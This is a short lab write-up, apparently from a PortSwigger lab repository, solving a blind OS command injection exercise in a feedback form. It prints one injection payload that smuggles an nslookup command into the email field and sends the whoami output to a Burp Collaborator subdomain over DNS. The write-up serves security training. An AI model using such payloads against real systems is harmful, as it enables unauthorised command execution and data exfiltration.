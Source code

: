 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab

### Solution

captured the feedback POST request and modified the email with the payload 

||nslookup+``whoami``.BURP-COLLABORATOR-SUBDOMAIN||

then inserted the burp collaborator payload for the subdomain

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/cfc79693-a7b3-4e25-83e4-08f07bfe4312)

At the collaborator tab, the current user name was identified succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0ac5a211-1b99-498c-b44f-6083c15ced6d)

Submitted the soultion and completed the lab succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6e15be3f-a669-42a6-bf52-96fc37cd5507)
